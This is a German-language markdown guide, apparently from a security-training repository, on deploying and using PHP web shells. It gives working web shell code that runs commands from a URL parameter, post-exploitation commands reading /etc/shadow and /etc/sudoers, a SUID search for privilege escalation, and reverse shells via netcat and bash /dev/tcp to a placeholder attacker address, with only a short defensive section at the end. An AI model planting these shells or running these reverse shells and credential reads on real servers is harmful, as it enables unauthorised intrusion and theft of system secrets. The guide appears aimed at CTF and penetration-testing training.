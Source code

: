 # 🐚 PHP WebShell Usage Guide



## Inhaltsverzeichnis

- [Einleitung](#einleitung)
- [Beispiel einer einfachen PHP Webshell](#beispiel-einer-einfachen-php-webshell)
- [Typische Webshell-Kommandos](#typische-webshell-kommandos)
- [Privilege Escalation vorbereiten](#privilege-escalation-vorbereiten)
- [Daten exfiltrieren oder Reverse Shell starten](#daten-exfiltrieren-oder-reverse-shell-starten)
- [Schutzmaßnahmen gegen PHP-Webshells](#schutzmaßnahmen-gegen-php-webshells)
- [Siehe auch](#siehe-auch)
- [Haftungsausschluss](#haftungsausschluss)




<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


## Einleitung

Eine **PHP-Webshell** ist eine serverseitige Datei (z. B. `.php`), die einem Angreifer erlaubt, über den Browser Befehle auf dem Zielsystem auszuführen. Sie werden häufig in Penetration Tests, Capture-the-Flag (CTF)-Challenges oder Sicherheitsanalysen eingesetzt, um **Remote Code Execution (RCE)** nach einem erfolgreichen Upload-Angriff zu ermöglichen.

> ⚠️ **Wichtiger Hinweis:**  
> Dieses Wissen dient ausschließlich der **legalen Sicherheitsforschung**, für **CTFs**, **Testumgebungen** (wie HackTheBox/TryHackMe) oder autorisierte Penetration Tests. Jegliche nicht autorisierte Anwendung ist strafbar.




<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


## Beispiel einer einfachen PHP Webshell

```php
<?php
  echo "<pre>";
  system($_GET['cmd']);
  echo "</pre>";
?>


⏳ Alternative mit exec()
php
<?php
  echo "<pre>";
  exec($_GET["cmd"], $out);
  echo htmlentities(join("\n", $out));
  echo "</pre>";
?>

Zugriff erfolgt z. B. über:
http://target/uploads/shell.php?cmd=whoami
```



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Typische Webshell-Kommandos
Sobald du Zugriff auf die Shell hast, kannst du mit folgenden Befehlen arbeiten:

### 🧠 Informationsgewinnung
```bash
uname -a                 # Kernel & Systeminfo
id                       # Aktueller Benutzer & Gruppen
pwd                      # Aktuelles Verzeichnis
whoami                   # Benutzername
```


<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


### 🗂️ Verzeichnisstruktur erkunden
```bash
ls -la /home             # Benutzerverzeichnisse
ls -la /root             # Root-Verzeichnis (Zugriff nur bei root)
ls -la /var/www          # Webserver-Verzeichnis
```


<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


### 📝 Systemdateien lesen

```bash
cat /etc/passwd
cat /etc/shadow
cat /etc/sudoers
```


<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


### 🌐 Netzwerk-Check
```bash
netstat -anp             # Ports & Prozesse
```



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Privilege Escalation vorbereiten
Um weitere Rechte zu erlangen oder Root-Zugriff vorzubereiten:
```bash
find / -type f -perm -4000 2>/dev/null
which nc
which python
```
Mit einem gefundenen Tool kann eine Reverse Shell aufgebaut werden.




<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


## Daten exfiltrieren oder Reverse Shell starten
Beispiel mit Netcat (wenn vorhanden):
```bash
nc [AttackerIP] [Port] -e /bin/bash
```

Oder über eine PHP-gestützte Reverse Shell:

```php
<?php
  exec("/bin/bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1'");
?>
```
> 🔁 Den Angriff auf Port 4444 lauschen: 
`nc -lvnp 4444`



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Schutzmaßnahmen gegen PHP-Webshells
- Für Blue Teams oder Sysadmins:
    - Datei-Uploads strikt validieren (MIME, Magic-Bytes, Dateinamen).
    - Webserver konfigurieren, um Ausführung in Upload-Verzeichnissen zu verhindern.
    - .php, .phtml, .inc etc. blockieren oder als reine Textdateien behandeln.
    - Monitoring-Tools wie OSSEC, Wazuh, LMD (Linux Malware Detect) verwenden.




<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


## Siehe auch:

- [php_web_shell_bypass_tricks.md](/03-web-security/angriffe/webshells/php_web_shell_bypass_tricks.md)
- [post_exploitation_tools.md](/04-host-security/post_exploitation_tools.md)
- [cmd_examples_from_shell.md](/03-web-security/angriffe/webshells/cmd_examples_from_shell.md)
- [php_rce_cheat_sheet.md](/03-web-security/angriffe/webshells/php_rce_cheat_sheet.md)



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


## Haftungsausschluss

Dieses Repository dient ausschließlich zu Ausbildungs-, Forschungs- und Demonstrationszwecken im Bereich der IT-Sicherheit.

Alle hier dokumentierten Techniken und Tools dürfen nur in legalen und autorisierten Testumgebungen verwendet werden – z. B. in Labors, CTFs oder mit ausdrücklicher Genehmigung des Eigentümers der Zielsysteme.

Wir distanzieren uns ausdrücklich von jeglicher illegalen Nutzung.
Dieses Projekt richtet sich an White-Hat-Sicherheitsforscher, Ethical Hacker und Auszubildende, die ethisch und rechtlich korrekt handeln.

[Disclaimer](/00-disclaimer/disclaimer.md)

--- 


Stay curious – stay secure. 🔐

🗓️ **Letzte Aktualisierung:** August 2025  
🤝 **Pull Requests willkommen** – Vorschläge für neue Kurse oder Kategorien gerne einreichen!

---
